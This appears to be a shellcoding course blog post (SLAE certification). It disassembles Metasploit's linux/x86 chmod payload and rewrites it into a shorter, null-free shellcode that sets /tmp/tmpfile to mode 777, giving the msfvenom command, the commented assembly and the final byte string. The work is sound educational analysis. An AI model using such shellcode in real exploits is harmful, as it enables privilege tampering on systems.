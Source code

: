 

# Analyze: Read File

# Create shellcode
```bash
msfvenom -p linux/x86/chmod -f c FILE=/tmp/tmpfile MODE=0777
```


# Analysis

## Disassemble w/ bash
```bash
echo -n "\x99\x6a\x0f\x58\x52\xe8\x0d\x00\x00\x00\x2f\x74\x6d\x70\x2f\x74\x6d\x70\x66\x69\x6c\x65\x00\x5b\x68\xff\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```

## Disassembled Assembly

```x86asm
00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80D000000        call 0x17
0000000A  2F                das
0000000B  746D              jz 0x7a
0000000D  702F              jo 0x3e
0000000F  746D              jz 0x7e
00000011  7066              jo 0x79
00000013  696C65005B68FF01  imul ebp,[ebp+0x0],dword 0x1ff685b
0000001B  0000              add [eax],al
0000001D  59                pop ecx
0000001E  CD80              int 0x80
00000020  6A01              push byte +0x1
00000022  58                pop eax
00000023  CD80              int 0x80
```

Here I will dissect the assembly piece by piece, followed by a commented version of theh code in entirety.


## Disassembled (Cleaned and commented)

Here I have cleaned and commented the code to get a better understanding of what is happening.

```x86asm
00000000  99                cdq             
00000001  6A0F              push byte +0xf      ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 15$"
                          
00000003  58                pop eax             ; int chmod(const char *pathname, mode_t mode);
00000004  52                push edx            ; 
00000005  E80D000000        call 0x17           ; jmp label1


0000000A  2F746D702F746D7066696C6500
; (ascii) /tmp/tmpfile

lebel1:
00000017  5B                pop ebx             ; ptr to: [string] /tmp/tmpfile
00000018  68FF010000        push dword 0x1ff    ; 
0000001D  59                pop ecx             ; ecx = 0x1ff - OCT = 777
0000001E  CD80              int 0x80            ; chmod("/tmp/tmpfile", 0x1ff)



00000020  6A01              push byte +0x1      
00000022  58                pop eax
00000023  CD80              int 0x80            ; exit()    
```

## Changes

The first change I made was to `cdq` and replaced it with an `xor ecx, ecx` to clear ecx's value that will be used later. I then `mul ecx` that will result in a 0 with a remainder of 0, thus clearing the `eax` and `edx` registers as well.

```x86asm
; cdq
xor ecx, ecx				; zero out ebx
mul ecx             ; zero out eax, and edx 
```

I then replace the push/pop with a `mov al` since eax was cleared in the previous `mul` command.


```x86asm
; push byte +0xf      ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 15$"             
; pop eax             ; int chmod(const char *pathname, mode_t mode);
mov al, 0xf
```

Then, instead of making a `call` instruction to push a pointer to the filename parameter to the stack, I will push the string to the stack directly. To do this, I will push `edx`, which was cleared in the previous `mul` statement and then push the string in reverse order. Then I move the stack pointer into `ebx` to be used as the parameter. 

```x86asm
; pop ebx             ; ptr to: [string] /tmp/tmpfile
push edx
push 0x656c6966         ; "elif"
push 0x706d742f         ; "pmt/"
push 0x706d742f         ; "pmt/"
mov ebx, esp
```

Since `ecx` was cleared in the original `xor` statement in the shellcode, I will set it's lower 2 bytes to `0x1ff` with a single move instruction and not worry about pushing/poping from the stack.

```x86asm
; push dword 0x1ff    ; 
; pop ecx             ; ecx = 0x1ff - OCT = 777
mov cx, 0x1ff       ; note: ecx was cleared in first xor of shellcode
```

I also remove the next push/pop and just `mov al, 0x1` for the exit statement as `eax` should be `0x0` if the `chmod()` was executed successfully.

```x86asm
; push byte +0x1      
; pop eax
mov al, 0x1        ; eax should be 0x0 from chmod() return value
```



## Final code
```x86asm
global _start

section .text
_start:
    ; cdq
    xor ecx, ecx				; zero out ebx
    mul ecx             ; zero out eax, and edx    

    ; push byte +0xf      ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 15$"             
    ; pop eax             ; int chmod(const char *pathname, mode_t mode);
    mov al, 0xf

    ; pop ebx             ; ptr to: [string] /tmp/tmpfile
    push edx
    push 0x656c6966         ; "elif"
    push 0x706d742f         ; "pmt/"
    push 0x706d742f         ; "pmt/"
    mov ebx, esp

    ; push dword 0x1ff    ; 
    ; pop ecx             ; ecx = 0x1ff - OCT = 777
    mov cx, 0x1ff       ; note: ecx was cleared in first xor of shellcode

    int 0x80            ; chmod("/tmp/tmpfile", 0x1ff)

    ; push byte +0x1      
    ; pop eax
    mov al , 0x1        ; eax should be 0x0 from chmod() return value

    int 0x80            ; exit() 
```

## Shellcode

```c
"\x31\xc9\xf7\xe1\xb0\x0f\x52\x68\x66\x69\x6c\x65\x68\x2f\x74\x6d\x70\x68\x2f\x74\x6d\x70\x89\xe3\x66\xb9\xff\x01\xcd\x80\xb0\x01\xcd\x80"
```

## Conclusion

Metasploit payload length is 37 bytes with nulls.

My payload length is 34 bytes without nulls.



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly



